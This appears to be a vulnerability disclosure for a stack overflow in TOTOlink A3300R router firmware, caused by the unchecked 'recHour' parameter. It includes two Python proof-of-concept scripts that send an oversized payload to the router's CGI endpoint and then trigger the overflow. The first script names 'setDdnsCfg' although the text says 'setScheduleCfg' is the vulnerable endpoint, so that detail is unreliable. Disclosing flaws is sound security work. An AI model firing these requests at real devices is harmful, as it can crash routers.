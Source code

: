 ## Summary

A stack overflow vulnerability exists in the TOTOlink A3300R firmware. The `recHour` POST parameter accepted by `setScheduleCfg` function is written to the configuration key `recHour` via `Uci_Set_Str` without length or content validation. The stored value is later read via `getScheduleCfg `function and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & version

- Device: TOTOlink A3300R
- Firmware Version: V17.0.0cu.557_B20221024
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `Uci_Set_Str` and `Uci_Get_Str` functions that handle `recHour`.

## Vulnerability details

The `setScheduleCfg` endpoint accepts a POST parameter `recHour` and calls `Uci_Set_Str(11, "rebootsch", "recHour", v5)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_120741.png)

The `getScheduleCfg` endpoint retrieves the `recHour` parameter using `Uci_Get_Str(11, "rebootsch", "recHour", v13)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_121155.png)

## POC

1. **Store `recHour` **

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
payload = b"a"*0x1000
data = {"topicurl":"setDdnsCfg","mode":"1","week":"1","hour":"11","minute":"11","recHour":payload}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

2. **Trigger**

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"getScheduleCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
```

3. **result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251012_114256.png)